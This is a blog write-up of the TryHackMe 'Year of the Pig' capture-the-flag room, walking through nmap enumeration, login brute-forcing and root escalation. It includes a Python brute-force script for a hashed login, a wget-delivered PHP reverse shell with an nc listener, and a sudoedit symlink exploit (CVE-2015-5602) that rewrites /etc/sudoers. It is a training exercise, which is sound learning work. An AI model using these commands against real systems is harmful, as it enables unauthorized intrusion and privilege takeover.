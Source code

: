 ```yaml
---
title: "Year of the Pig"
date: 2023-07-13T16:07:36+05:30
draft: true
toc: true
images:
tags:
  - Writeups
  - TryHackMe
---
```


Machine URL :: [Year of the pig](https://tryhackme.com/room/yearofthepig)
## ENUMERATION
Nmap :
```bash
nmap -sC -sV -p- 10.10.9.235  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 13:10 IST
Nmap scan report for 10.10.9.235
Host is up (0.057s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Marco's Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Let's start with the webserver.

{{< image src="/images/pig/1.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Use gobuster for directory bruteforcing:

{{< image src="/images/pig/2.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

This reveals the admin directory which yields us this as `/login.php`:

{{< image src="/images/pig/3.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

### Web Login:
The page is sending an AJAX request to `/api/login` using JSON format for the user input. Also , the password value is MD5 hash value of the string.

{{< image src="/images/pig/4.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

For wrong credentials the following message appears:\
`Remember that passwords should be a memorable word, followed by two numbers and a special character`\
Take a note of that.\

Let's attempt to bruteforce this login now.
We need a custom wordlist as ensured by the password policy. Scanning the page for 'memorable' words gives us this:
```plain-text
Marco
marco
plane
planes
airplane
airplanes
airforce
flying
Savoia
savoia
Macchi
macchi
Curtiss
curtiss
milan
Milan
mechanic
maintenance
Italian
italian
Agility
agility
```
You can use [CeWL](https://digi.ninja/projects/cewl.php) for this.\
Adding a custom rule to `/etc/john/john.conf`. This will fulfill the password policy required.
```
[List.Rules:yop]
Az"[0-9][0-9][!#$%&(),*=/?]"
```
But the passwords are MD5-Hashed first before being sent to the login. Use this python program to hash the passwords and use them to bruteforce the login:
```python
#!/usr/bin/python3
import requests
import sys
import json
import hashlib

payload= {"username":sys.argv[2],"password":"test"}

i = 0
for line in sys.stdin:
    payload["password"] = hashlib.md5(line.rstrip().encode('utf-8')).hexdigest()
    r = requests.post(sys.argv[1]+"/api/login",data=json.dumps(payload))
    json_data = json.loads(r.content)
    i = i +1
    if i % 10 == 0:
        print(str(i),end="\r")
    if json_data["Response"] != "Error":
        print (line)
        break
```
 Got this from [auth.py](https://gist.github.com/j11b0/c5101a9d32be96ff73fa4a72c0705290#file-auth-py)\
 This takes a while. Thankfully the password doesn't seem to reset with every reboot.

{{< image src="/images/pig/6.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Going forward we see:

{{< image src="/images/pig/7.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Now this is a complete rabbit hole. The commands section only responds to some commands like `whoami`which tells us we are `www-data` and `id`.

## FOOTHOLD
SSH as marco using the same password and you get the first flag immediately.

{{< image src="/images/pig/8.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Looking in the `/var/www` directory to find some hints of what to do with the webserver we find that marco can edit any file here except `admin.db`.

{{< image src="/images/pig/9.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

To read `admin.db` we need to be www-data. So, let’s use our edit access to upload the PentestMonkey PHP reverse shell (located by default on Kali at `/usr/share/webshells/php/php-reverse-shell.php`) — making sure to change the IP and port number. \Using wget:
```bash
root@kali:/usr/share/webshells/php# python3 -m http.server
marco@year-of-the-pig:/var/www/html/admin$ wget YOUR-IP:8000/php-reverse-shell.php
```
Start a listener with `nc -lvnp <chosen-port>` then activate the shell by going to `http://<machine-ip>/php-reverse-shell.php`
{{< image src="/images/pig/10.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We can't read the databse in a non-interactive shell , so to upgrade use :\
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

{{< image src="/images/pig/11.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We got the password hashes of user curtis.

{{< image src="/images/pig/12.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

`su curtis` and you'll get the 2nd flag in his home directory.

## PRIVILEGE ESCALATION
Checking `sudo -l` we see that Curtis can execute sudoedit as sudo, against some files in /var/www/html.

{{< image src="/images/pig/13.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Checking ExploitDB for sudoedit exploit gives us [this](https://www.exploit-db.com/exploits/37710).\
Checking sudo version confirms we are to use the CVE-2015-5602 exploit.
```bash
curtis@year-of-the-pig:~$ sudo --version
Sudo version 1.8.13
Sudoers policy plugin version 1.8.13
Sudoers file grammar version 44
Sudoers I/O plugin version 1.8.13
```
In this version of sudo , sudoedit does not check the full path if a wildcard is used twice (e.g. `/html/*/*/config.php`), allowing a malicious user to replace the `config.php` real file with a symbolic link to a different location.\
Marco being part of the `web-developers` can create such a path.\
Now symlink this to `/etc/sudoers` file so we may give curtis sudo access. You can use this with the `/etc/passwd` file to add your own password.

{{< image src="/images/pig/15.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Back to Curtis : `sudoedit /var/www/html/dir1/dir2/config.php`
This did not work with sudo for some reason.\
Add curtis to the file :
```plain-text
## User Privilege Specification
##
root ALL=(ALL) ALL
curtis ALL=(ALL) ALL
## Uncomment to allow members of group wheel to execute any command
```
Now you can use su to elevate your privileges.

{{< image src="/images/pig/16.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

